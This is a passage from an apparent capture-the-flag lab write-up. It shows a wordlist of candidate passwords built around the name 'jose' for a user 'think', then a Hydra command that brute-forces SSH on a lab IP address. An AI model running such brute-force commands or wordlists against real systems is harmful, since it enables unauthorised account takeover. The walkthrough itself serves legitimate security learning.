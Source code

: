 ```
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171

```

And we have a password list file for 'think' .
# SSH (22)

## Hydra

Let's do some [Bruteforcing](../../3%20-%20Tags/Hacking%20Concepts/Bruteforcing.md) to find the right password :

```
hydra -l think -P passwords  10.10.116.56 ssh -vvv 
```

![Pasted image 20250719174923.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719174923.png)
